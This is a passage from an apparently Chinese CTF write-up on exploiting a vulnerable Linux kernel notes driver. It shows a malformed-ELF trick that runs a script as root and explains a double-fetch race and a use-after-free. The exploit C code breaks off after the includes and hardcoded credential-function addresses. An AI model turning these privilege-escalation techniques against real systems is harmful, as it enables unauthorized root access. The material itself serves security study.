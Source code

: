 2.而后打开一个非法格式`ELF`触发，即以`root`身份运行`copy.sh`

```sh
echo -ne '\xff\xff\xff\xff' > fake
./fake
```

[参考链接][1]

![image_1e693d72u1enl1cneadj3h41tng9.png-34.8kB][2]

可惜，该利用无法稳定每次获得内核地址信息，具体看分配的地址位置，利用非常麻烦

[利用参考][3]

### 解题思路2
在驱动的`add_note()`函数中，从用户态传参到内核态时，在传入`size`值时，并没有使用`copy_from_user()`函数安全拷贝，而是连续两次比较了用户态的对应地址，而这引发了`double fetch`问题。

![image_1e6bda8am1d31h36ubj1ul83079.png-51.2kB][4]

其次，由于在多核环境中，此`race`漏洞会容易触发。

![image_1e6becjm0hvr1bct1odg13ugbv4m.png-62.3kB][5]

如此，我们就可以分配任意大小的驱动结构体大小。同时在`delete_note()`中，存在着`uaf`漏洞。

![image_1e6bh0sc91jdg1vir1b0urmt11lu13.png-24.8kB][6]

可以使用`tty_struct`结构体堆喷技术进行提权。

另外，学习了一种新的从内核态返回用户态的`getshell`技术，可以少找许多`gadget`。

### exp
```C
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <poll.h>
#include <pthread.h>
#include <errno.h>
#include <stdlib.h>
#include <signal.h>
#include <string.h>
#include <sys/syscall.h>
#include <linux/userfaultfd.h>
#include <pthread.h>
#include <poll.h>
#include <linux/prctl.h>
#include <stdint.h>


typedef int __attribute__((regparm(3))) (*_commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*_prepare_kernel_cred)(unsigned long cred);
_prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)0xffffffff810ad7e0;
_commit_creds commit_creds = (_commit_creds)0xffffffff810ad430;

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
```

  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png